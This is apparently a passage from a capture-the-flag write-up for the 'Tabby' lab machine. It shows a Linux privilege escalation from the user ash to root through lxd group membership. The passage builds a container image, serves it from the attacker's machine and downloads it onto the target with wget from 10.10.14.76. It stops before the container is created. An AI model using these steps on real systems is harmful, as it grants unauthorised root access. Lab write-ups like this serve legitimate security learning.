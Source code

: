 ## Privilege Escalation of Machine : ash to root

ash is in adm and lxd groups:

```
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

[lxc - Privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation)

Prepare distrobuilder:

```
$ sudo pacman -S go debootstrap rsync gnupg squashfs-tools git --needed
$ go get -d -v github.com/lxc/distrobuilder/distrobuilder
$ cd $HOME/go/src/github.com/lxc/distrobuilder
$ make
$ cd
```

Prepare and build an image:

```
$ mkdir -p $HOME/ContainerImages/alpine/
$ cd $HOME/ContainerImages/alpine/
$ wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
$ sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml

# or

$ mkdir -p $HOME/ContainerImages/voidlinux/
$ cd $HOME/ContainerImages/voidlinux/
$ wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/voidlinux.yaml
$ sudo $HOME/go/bin/distrobuilder build-lxd voidlinux.yaml
```

Then, upload to the server the files `lxd.tar.xz` and `rootfs.squashfs`:

```
$ ruby -run -e httpd . -p 8888
[2020-08-09 15:40:46] INFO  WEBrick 1.6.0
[2020-08-09 15:40:46] INFO  ruby 2.7.1 (2020-03-31) [x86_64-linux]
[2020-08-09 15:40:46] INFO  WEBrick::HTTPServer#start: pid=43919 port=8888
```

Then on the target download & add the image:

```
$ wget http://10.10.14.76:8888/lxd.tar.xz
$ wget http://10.10.14.76:8888/rootfs.squashfs
$ lxc image import lxd.tar.xz rootfs.squashfs --alias voidlinux
$ lxc image list
```

Create a container and add root path:
